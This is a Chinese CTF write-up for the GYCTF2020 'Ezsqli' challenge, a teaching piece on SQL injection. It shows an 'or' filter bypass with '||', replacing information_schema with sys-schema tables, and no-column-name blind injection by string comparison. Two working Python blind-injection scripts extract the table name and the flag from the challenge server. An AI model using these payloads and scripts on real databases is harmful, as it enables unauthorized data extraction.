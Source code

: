 # [GYCTF2020]Ezsqli 绕过or information_schema 无列名注入

[https://www.cnblogs.com/h0cksr/p/16189749.html](https://www.cnblogs.com/h0cksr/p/16189749.html) 

 [https://www.gem-love.com/ctf/1782.html](https://www.gem-love.com/ctf/1782.html) 

说好的ez....

我们开始吧

首先就直接进行抓包看回显



<img src="https://i-blog.csdnimg.cn/blog_migrate/13ed4bab0b2514b1c9481256ebf0a366.png" alt="" style="max-height:216px; box-sizing:content-box;" />


然后开始正常的测试



<img src="https://i-blog.csdnimg.cn/blog_migrate/f5eb6d2509e008d13ce047c7b7694ace.png" alt="" style="max-height:251px; box-sizing:content-box;" />


报错了 这里的

## or过滤的绕过

我们可以使用 ^ 或者 || 我喜欢用 ||

所以继续构造



<img src="https://i-blog.csdnimg.cn/blog_migrate/04393bb4ef4993598b7dacaee87d0029.png" alt="" style="max-height:246px; box-sizing:content-box;" />


发现了 就是目前这种 然后我们可以开始

我们通过fuzz 发现 很多都被禁用了

所以我们还是选择盲注吧

正常测一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/67cd313b2afa5c52fbeaf9a7dc8488e3.png" alt="" style="max-height:216px; box-sizing:content-box;" />


确定了 可以使用盲注

那我们开始写了

但是我们通过fuzz 发现 information_schema 也被过滤了 其实主要是 or被过滤

## information_schema绕过

所以我们需要使用其他的表来爆破

这里给出几个替换的

```cobol
sys.schema_table_statistics_with_buffer
 
sys.x$schema_flattened_keys
```

这两个都可以查出来

```cobol
import time
 
import requests
 
base_url=r"http://238ed74f-cd44-42cb-9714-fd94acddc480.node4.buuoj.cn:81/"
data=''
#下面的payload需要使用 > 号 而不是 =
payload="""2||ascii(substr((select group_concat(table_name) from sys.x$schema_flattened_keys where table_schema=database()),{},1))>{}"""
for i in range(1,10000):
    low = 32
    high = 128
    mid =(low + high) // 2
    while(low < high):
        payload1=payload.format(i,mid)
        data1={
            'id':payload1
        }
        r = requests.post(url=base_url,data=data1)
        if "Nu1L" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 132):
        break
    data+=chr(mid)
    print(data)
 
```

```cobol
f1ag_1s_h3r3_hhhhh,users233333333333333
```

得到了表名

## 无列名注入

这里因为我们无法通过 这个表获取flag的列名

并且这里过滤了 union 所以我们无法使用  


```cobol
select 1,2,3 union select * from 表
```

这种无列名注入

所以我们现在需要学习另一个

### 通过ascii位移来获得flag

我们开始在本地尝试

```cobol
select (select "a")  > (select "abcdef")
 
0
 
 
 
select (select "b")  > (select "abcdef")
 
1
 
这里能发现 是通过比对 首个字符的ascii 如果相同 就输出 0 不同就输出 1
 
```

这里真的很巧妙

我们继续来实验一下

这里其实比对的是

```python
前一个 ascii  和 后一个ascii 值的大小
 
 
如果前一个比较大 那么就输出0
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7fa5f4cb78b472d6b2ccbf596aef0bbb.png" alt="" style="max-height:210px; box-sizing:content-box;" />


但是反过来 如果 后面比较大 我们就输出1



<img src="https://i-blog.csdnimg.cn/blog_migrate/621dec8f10419ce522ec4f9d33f8d950.png" alt="" style="max-height:254px; box-sizing:content-box;" />


其次 第一个一样 我们就比对下一个

| `select (select "ac") > (select "abcdef")` | 1 |
|:---:|:---:|
| `select (select "aa") > (select "abcdef")` | 0 |



所以我们可以通过这个方式来查询

```cobol
首先通过 select 1,2,3 查询字段数
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4510f38a0edce3526d39dfe32af9e365.png" alt="" style="max-height:221px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/43918b6d4303cdca8a5a0e719bb3d2a0.png" alt="" style="max-height:210px; box-sizing:content-box;" />
说明字段数量为2

然后我们就可以通过循环开始查询了

我这里演示一下

我们知道 flag 是f开头

如果我输入g呢 返回 1（Nu1L）



<img src="https://i-blog.csdnimg.cn/blog_migrate/f78a13a0f6451f3992cb9233f223fe29.png" alt="" style="max-height:239px; box-sizing:content-box;" />




如果输入的是e



<img src="https://i-blog.csdnimg.cn/blog_migrate/da2a66447029b7f185f8cf45a4362155.png" alt="" style="max-height:226px; box-sizing:content-box;" />


返回了 V&N

所以我们只要读取到了 Nu1L 然后通过 减去一位 我们就可以获得上一个的字符

然后加入 就可以获取下一个了

这里还有一个要注意的 就是 我们注入的地方在字段2 是flag在的地方

1 可能是 id什么的

我们开始写脚本吧

```cobol
import time
 
import  requests
 
baseurl="http://17d5864a-27fc-4fc7-be88-e639f3f55898.node4.buuoj.cn:81/index.php"
 
 
def add(flag):
    res=''
    res+=flag
    return res
flag=''
for i in range(1,200):
    for char in range(32,127):
        datachar = add(flag+chr(char)) #增加下一个比对的字符串
        payload='2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))'.format(datachar)
        data = {
            'id':payload
        }
        req=requests.post(url=baseurl,data=data)
        if "Nu1L" in req.text:
            flag += chr(char-1)
            print(flag)
            break
        if req.status_code == 429:
            time.sleep(0.5)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d22add64bc1ba020a1a127b872f8b6f6.png" alt="" style="max-height:144px; box-sizing:content-box;" />